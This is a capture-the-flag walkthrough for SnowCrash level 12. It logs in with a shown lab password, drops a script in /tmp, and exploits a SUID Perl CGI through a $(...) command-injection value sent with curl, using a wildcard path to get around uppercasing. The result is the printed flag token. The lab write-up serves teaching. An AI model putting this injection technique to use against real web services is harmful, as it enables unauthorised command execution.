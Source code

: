 Login as `level12`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level12
level12@192.168.1.64's password: fa6v5ateaw21peobuub8ipe6s
```
An `SUID` Perl script is located in home directory.
```shell
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..
```
Script execute a substitution command.
```shell
level12@SnowCrash:~$ vi /tmp/GETFLAG.SH
#!/bin/bash
/bin/getflag > /tmp/flag12
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG.SH
```
Then, wildcard `*` can be used to search and execute all files `GETFLAG.SH` across all directory.
What is expected as soon as 
```
`egrep "^$xx" /tmp/xd 2>&1`
`egrep "^$(/*/GETFLAG.SH)" /tmp/xd 2>&1`
```
```shell
level12@SnowCrash:~$ curl  'http://127.0.0.1:4646/?x=$(/*/GETFLAG.SH)'
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
